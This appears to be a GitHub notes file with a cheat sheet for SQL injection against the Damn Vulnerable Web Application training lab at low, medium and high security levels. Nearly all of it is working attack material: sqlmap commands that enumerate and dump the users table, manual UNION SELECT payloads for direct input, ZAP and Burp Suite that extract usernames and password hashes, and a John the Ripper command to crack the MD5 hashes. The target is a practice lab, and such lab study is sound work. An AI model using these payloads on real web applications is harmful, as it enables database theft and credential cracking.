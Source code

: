 **Damn Vulnerable Web Application (DVWA) SQL injection using sqlmap**

**SQL Injection DVWA-Low:** <br>
$ sqlmap -u "http://192.168.0.109/dvwa/vulnerabilities/sqli/?id=3&Submit=Submit#" --cookie="PHPSESSID=8566j3a1sso9lilhudv6ht9pqn; security=low" --dbs
$ sqlmap -u "http://192.168.0.109/dvwa/vulnerabilities/sqli/?id=3&Submit=Submit#" --cookie="PHPSESSID=8566j3a1sso9lilhudv6ht9pqn; security=low" -D dvwa -tables
$ sqlmap -u "http://192.168.0.109/dvwa/vulnerabilities/sqli/?id=3&Submit=Submit#" --cookie="PHPSESSID=8566j3a1sso9lilhudv6ht9pqn; security=low" -D dvwa -T users -columns
$ sqlmap -u "http://192.168.0.109/dvwa/vulnerabilities/sqli/?id=3&Submit=Submit#" --cookie="PHPSESSID=8566j3a1sso9lilhudv6ht9pqn; security=low" -D dvwa -T users -dump 

**SQL Injection DVWA-Medium:**
$ sqlmap -u "http://192.168.100.8/dvwa/vulnerabilities/sqli/#" --cookie="PHPSESSID=7632vnk8e7ufep6a0t3f2quugb; security=medium" --data="id=3&Submit=Submit" --dbs
$ sqlmap -u "http://192.168.100.8/dvwa/vulnerabilities/sqli/#" --cookie="PHPSESSID=7632vnk8e7ufep6a0t3f2quugb; security=medium" --data="id=3&Submit=Submit" -D dvwa -tables
$ sqlmap -u "http://192.168.100.8/dvwa/vulnerabilities/sqli/#" --cookie="PHPSESSID=7632vnk8e7ufep6a0t3f2quugb; security=medium" --data="id=3&Submit=Submit" -D dvwa -T users --dump
$ sqlmap -u "http://192.168.100.8/dvwa/vulnerabilities/sqli/#" --cookie="PHPSESSID=7632vnk8e7ufep6a0t3f2quugb; security=medium" --data="id=3&Submit=Submit" -D dvwa -T users --column


**SQL Injection DVWA-High**
$ sqlmap -u "http://192.168.100.8/dvwa/vulnerabilities/sqli/session-input.php" --cookie="PHPSESSID=sv0m9s1dv0kp23lv9ajjtsbrfn; security=high" --data="id=3&Submit=Submit" --second-url http://192.168.100.8/dvwa/vulnerabilities/sqli/ --dbs
$ sqlmap -u "http://192.168.100.8/dvwa/vulnerabilities/sqli/session-input.php" --cookie="PHPSESSID=sv0m9s1dv0kp23lv9ajjtsbrfn; security=high" --data="id=3&Submit=Submit" --second-url http://192.168.100.8/dvwa/vulnerabilities/sqli/ -D dvwa -tables  
$ sqlmap -u "http://192.168.100.8/dvwa/vulnerabilities/sqli/session-input.php" --cookie="PHPSESSID=sv0m9s1dv0kp23lv9ajjtsbrfn; security=high" --data="id=3&Submit=Submit" --second-url http://192.168.100.8/dvwa/vulnerabilities/sqli/ -D dvwa -tables --dump 

------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
**DVWA SQL Injection (Manual, Zaproxy & Burpsuite)**

DVWA Low: 
1' ORDER BY 2-- #
1' ORDER BY 2 #
1' OR 1=1 UNION SELECT 1, VERSION()#
1' OR 1=1 UNION SELECT 1, VERSION()#
1' OR 1=1 UNION SELECT 1,DATABASE() #
1' OR 1=1 UNION SELECT 1,table_name FROM  information_schema.tables WHERE table_type='base table' AND table_schema='dvwa' #
1' OR 1=1 UNION SELECT 1, column_name FROM information_schema.columns WHERE table_name='users' #
1' OR 1=1 UNION SELECT user, password FROM users #      
           
           
          
DVWA (Low):           
%' or '0'='0
%' or 0=0 union select null, version() #    //Displaying version
%' or 0=0 union select null, user() #
%' or 0=0 union select null, database() #
%' and 1=0 union select null, table_name from information_schema.tables #
%' and 1=0 union select null, table_name from information_schema.tables where table_name like 'users%'#
%' and 1=0 union select null, concat(table_name,0x0a,column_name) from information_schema.columns where table_name = 'users' # // Add two strings together
%' and 1=0 union select null, concat(first_name,0x0a,last_name,0x0a,user,0x0a,password) from users #
$ john -format:raw-MD5 database\ user\ password.txt


DVWA SQL Injection (Medium) using zaproxy:
Inserting folling query in "zaproxy manual request editor"

id=2 or 0=0 union select null, version() &Submit=Submit
id=2 or 0=0 union select null, database() &Submit=Submit
id=2 union select null, table_name from information_schema.tables &Submit=Submit
id=2 UNION SELECT user, password FROM users &Submit=Submit

DVWA SQL Injection (Medium) using burpsuite:
After capturing the packet send it to repeater
id=1 or 1=1#&Submit=Submit
id=2 or 0=0 union select null, user() #&Submit=Submit
id=2 or 1=0 union select null, table_name from information_schema.tables #&Submit=Submit
id=2 or 1=1 union select 1,column_name from information_schema.columns# &Submit=Submit
id=2 or 1=0 union select 1,group_concat(user,password) from users#  &Submit=Submit
id=2 UNION SELECT user, password FROM users # &Submit=Submit


DVWA SQL Injection (High) manually:
1' OR 1=1 UNION SELECT user, password FROM users#
1' OR 1=1 UNION SELECT password, @@hostname FROM users#
1' union select 1,column_name from information_schema.columns where table_name="users"#
1' union select user,password from users#


